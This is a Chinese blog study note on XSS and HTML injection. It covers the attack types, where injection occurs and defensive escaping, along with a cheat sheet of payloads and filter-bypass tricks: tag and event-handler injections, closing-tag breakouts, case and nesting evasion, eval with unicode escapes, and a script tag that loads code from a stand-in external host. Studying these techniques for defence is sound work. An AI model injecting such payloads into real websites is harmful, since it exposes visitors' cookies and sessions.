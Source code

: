 ```yaml
---
title: 随记(23)——XSS攻击
date: 2021-03-30
author: LM
---
```


> 参考原文：[ XSS(跨站脚本攻击)详解  @615 ](https://www.cnblogs.com/wuqun/p/12484816.html)

## 1.简单介绍

HTML注入与XSS攻击简单来说就是当用户在输入框输入内容，后台对输入内容不做处理直接添加入页面。此时，**用户就可以刻意填写HTML、JavaScript脚本来作为文本输入**，这样这个页面就会出现一些用户加入的东西了，这是一种脚本注入。

```html
<a href=http://www.baidu.com>Click Me</a>
```

当然有些稍微有点脑子的网站会屏蔽 script 标签的输入，但是我们大可以利用类似于以下的语句注入脚本。

```html
<img src=1 οnerrοr=alert(1) />
<scr<script>ipt>
```

因此，相比起过滤script标签，建议采用更加高明的过滤'<''>''&'等符号。事实上html定义了几个特定符号专门用来表示这几个符号的，比如用&amp来代替&符号等。

## 2.XSS

跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页面时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击！

XSS攻击主要分为以下三种

- 存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie
- 反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。反射型XSS大多数是用来盗取用户的Cookie信息
- DOM型XSS：不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS。可能触发DOM型XSS的属性有：document.referer，window.name，location，innerHTML，documen.write。具体操作是在URL中传入参数的值，然后客户端页面通过js脚本利用DOM的方法获得URL中参数的值，再通过DOM方法进行赋值或其他操作

## 3.XSS的攻击载荷

以下所有标签的 > 都可以用 // 代替

### script标签

```html
<script>alert("hack")</script>   #弹出hack
<script>alert(/hack/)</script>   #弹出hack
<script>alert(1)</script>        #弹出1，对于数字可以不用引号
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```

### svg标签

```html
<svg onload="alert(1)">
<svg onload="alert(1)"//
```

### img标签

```html
<img  src=1  οnerrοr=alert("hack")>
<img  src=1  οnerrοr=alert(document.cookie)>  #弹出cookie
```

### body标签

```html
<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
```

### video标签

```html
<video οnlοadstart=alert(1) src="/media/hack-the-planet.mp4" />
```

### style标签

```html
<style οnlοad=alert(1)></style>
```

## 4.XSS可以插在哪里？

- 用户输入作为script标签内容
- 用户输入作为HTML注释内容
- 用户输入作为HTML标签的属性名
- 用户输入作为HTML标签的属性值
- 用户输入作为HTML标签的名字
- 直接插入到CSS里
- 最重要的是，千万不要引入任何不可信的第三方JavaScript到页面里！

```html
<!-- 用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过-->
<!-- --><script>alert('hack')</script><!-- -->
<!-- 用户输入作为标签属性名，导致攻击者可以进行闭合绕过-->
<div 用户输入="xx">  </div>
<div ></div><script>alert('hack')</script><div a="xx"> </div>
<!-- 用户输入作为标签属性值，导致攻击者可以进行闭合绕过-->
<div id="用户输入"></div>
<div id=""></div><script>alert('hack')</script><div a="x"></div>
<!-- 用户输入作为标签名，导致攻击者可以进行闭合绕过-->
<用户输入  id="xx" />
<><script>alert('hack')</script><b id="xx" />
<!-- 用户输入作为CSS内容，导致攻击者可以进行闭合绕过-->
<style>用户输入<style>
<style> </style><script>alert('hack')</script><style> </style>
```

## 5.XSS漏洞的挖掘 

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

- URL的每一个参数
- URL本身
- 表单
- 搜索框

常见业务场景

- 重灾区：评论区、留言区、个人信息、订单信息等
- 针对型：站内信、网页即时通讯、私信、意见反馈
- 存在风险：搜索框、当前目录、图片属性等

## 6.XSS的简单过滤和绕过

### a.区分大小写过滤标签

```html
<!-- 可以使用大小写绕过-->
<scripT>alert('hack')</scripT>
<sCript>alert("hey!")</scRipt>
```

### b.不区分大小写过滤标签

```html
<!-- 可以使用嵌套的script标签绕过 --> 
<scr<script>ipt>alert('hack')</scr</script>ipt>
```

### c.不区分大小写，过滤之间的所有内容

```html
<!-- 虽然无法使用<script>标签注入XSS代码，但是可以通过img、body等标签的事件或者 iframe 等标签的 src 注入恶意的 js 代码。onerror事件是专门针对js出错的，标签闭合性被破坏会触发这个事件。--> 
 <img src=1 οnerrοr=alert('hack')>
```

### d.编码脚本代码绕过关键字过滤

```html
<!-- 有的时候，服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入，不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行，简直太贴心了。例如alert(1)编码过后就是 \u0061\u006c\u0065\u0072\u0074(1)--> 
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```

### e.主动闭合标签实现注入代码

```html
<!-- 有些注入点出现在链接或属性中，此时可以使用"主动的闭合标签，实现代码的注入-->
";alert("I am coming again~");"
```

